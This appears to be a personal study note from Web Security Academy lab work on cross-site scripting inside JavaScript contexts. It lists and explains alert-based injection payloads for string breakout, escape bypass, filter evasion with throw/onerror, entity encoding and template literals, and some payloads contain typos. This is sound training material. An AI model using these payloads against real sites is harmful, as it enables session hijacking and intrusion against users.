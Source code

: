 

> [!warning] Valid only in HTML
> These exploits are only valid if the javascript `<script>` is inside the HTML or HTML element that takes js like **onerror**.

---
## Exploits
1. `</script><img src=1 onerror=alert(1)>`
2. `' + alert(1) + '` or `'-alert(1)//` or `'; alert(1); let tmp ='`.
3. `\';alert(1)//`
4. `&'}, a=x=>{throw onerror=alert()},tostring=a,window+'',{a:'`
5. `&apos;-alert(1)-%26apos;`
6. `${alert(1)}`

```js
<script> var searchTerms = 'controlledValue'; </script> /*
<script> var searchTerms = 'ControlledValue'; </script>
<script> var searchTerms = 'ControlledValue'; </script>
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=Control'}).finally(_ => window.location = '/')">Back</a>
<a id="author" href="https://abc" onclick="var tracker={track(){}};tracker.track('Controlled');">abc</a>
<script> var message = `0 search results for 'asdf'`; </script>
```


---
### lab1
#### Terminating the existing script
- The reason this works is that the **browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing** to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script being parsed and executed in the normal way.
- It is like race condition, we will execute the HTML first then the javascript.
- ==THIS IS VALID ONLY IF THE `<script>` IS INSIDE THE HTML.==
```js
//THIS SCRIPT IS INSIDE HTML DOCUMENT, OTHERWISE THIS WON'T WORK.
<script>
	var searchTerms = 'controlledValue';
</script>

_____Exploit_____
</script><img src=1 onerror=alert(1)> 

```
### lab2
#### Inject javascript code with no ' escape

```js
<script>
var searchTerms = 'ControlledValue';
</script>

____Exploit_____
'-alert(1)//   OR  '; alert(1); let tmp =' OR ' + alert(1) + '
var searchTerms = ''-alert(1)//'; 
``` 

### lab3
#### Inject javascript code with ' bypass
every `'` is converted to --> `\'`. but backslash isn't encoded. so we can use it to bypass `'` encoding.
```js
<script>
var searchTerms = 'ControlledValue';
</script>

______Exploit_______
\';alert(1)//

```

### lab4
#### WAF bypass for `()`.
- `fetch()`API only takes 2 arguments. but if we provide more than 2, javascript will take the first 2 arguments, but we can call another functions inside those args.
```js
<script>
let myVar = ()=> console.log('hello world');
function myfun(a,b){
	return a + b;
}

console.log(myfun(1,2, myVar ))
</script>
```
- `Throw` will make an exception in the page, and we can pass to it multiple expressions using comma saprated, and all item will be executed and you may define functions before and execute them at the last `throw function_defination(),function_call()`.
	- You can't use throw without return statement, so you can create functions in first arguments then make dummy return value at the end `thorw fun, 1337`
- Instead of creating functions we can use `onerror`to catch the exception.
- `x= x =>{}` this is same as `let x = (a)=>{}` which is arrow function. And we need to call it.
- We overwrite `toString` function by `toString=x`, so if we call toString we are calling `x` implementation.
- We need to call `toString` we can do this by `window+''`, window isn't string so javascript calls `toString` automaticily.
- The end of exploit is just for not breaking the syntax `{x:'`
- spaces aren't not allowed so we will use `/**/` as space.
```js 
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finaly( => window.location = '/')">back</a>
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId='ControlledValue'}).finaly(=>window.location= '/')">back</a>

_______Exploit_______
&'}, a=x=>{throw onerror=alert()},tostring=a,window+'',{a:'

https://0a2600780411361b804812e200bf005b.web-security-academy.net/post?postId=5&'},a=x=>{throw/**/onerror=alert,1337},toString=a,window+'',{a:'
```

### lab5
#### Making use of HTML-encoding
Use HTML5_entity encoding. Ex: `'` --> `&apos`. this is usefull to inject code in javascript in HTML context. don't pay attention to what is in `source` look at `inspect`.
```js
 <a id="author" href="https://abc" onclick="var tracker={track(){}};tracker.track('Controlled');">abc</a>

_______Exploit_______

&apos;-alert(1)-%26apos;

```

### lab6
#### Template literal 
```js
<script> var message = `0 search results for 'asdf'`; </script>

_______Exploit________

${alert(1)}
```